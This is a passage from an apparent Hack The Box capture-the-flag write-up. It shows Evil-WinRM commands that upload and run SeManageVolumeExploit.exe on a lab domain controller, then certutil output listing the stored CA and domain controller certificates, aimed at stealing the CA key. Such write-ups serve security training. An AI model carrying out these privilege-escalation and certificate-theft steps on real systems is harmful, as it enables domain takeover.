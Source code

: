 So like we always do, I found the exploit and executed it in the victim machine. the exploit that i used is in this github repo:

https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public

```powershell
*Evil-WinRM* PS C:\> upload SeManageVolumeExploit.exe 
                                        
Info: Uploading /home/sanke/Downloads/certificate/SeManageVolumeExploit.exe to C:\hh\SeManageVolumeExploit.exe
                                        
Data: 16384 bytes of 16384 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\> .\SeManageVolumeExploit.exe
Entries changed: 866

DONE

```

Now basically what we can do is creating, executing and reading any file we want in the C:\ even the protected files.

Then we use the “certutil” to find the storred certifications.

```powershell
*Evil-WinRM* PS C:\Users\Ryan.K> certutil -store My
My "Personal"
================ Certificate 0 ================
Archived!
Serial Number: 472cb6148184a9894f6d4d2587b1b165
Issuer: CN=certificate-DC01-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:30 PM
 NotAfter: 11/3/2029 3:40 PM
Subject: CN=certificate-DC01-CA, DC=certificate, DC=htb
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Cert Hash(sha1): 82ad1e0c20a332c8d6adac3e5ea243204b85d3a7
  Key Container = certificate-DC01-CA
  Unique container name: 6f761f351ca79dc7b0ee6f07b40ae906_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed

================ Certificate 1 ================
Archived!
Serial Number: 5800000002ca70ea4e42f218a6000000000002
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 8:14 PM
 NotAfter: 11/3/2025 8:14 PM
Subject: CN=DC01.certificate.htb
Certificate Template Name (Certificate Type): DomainController
Non-root Certificate
Template: DomainController, Domain Controller
Cert Hash(sha1): 779a97b1d8e492b5bafebc02338845ffdff76ad2
  Key Container = 46f11b4056ad38609b08d1dea6880023_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Simple container name: te-DomainController-3ece1f1c-d299-4a4d-be95-efa688b7fee2
  Provider = Microsoft RSA SChannel Cryptographic Provider
Private key is NOT exportable
Encryption test passed

================ Certificate 2 ================
Serial Number: 58000000156ec1ae454d982d95000000000015
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 10/4/2025 4:33 PM
```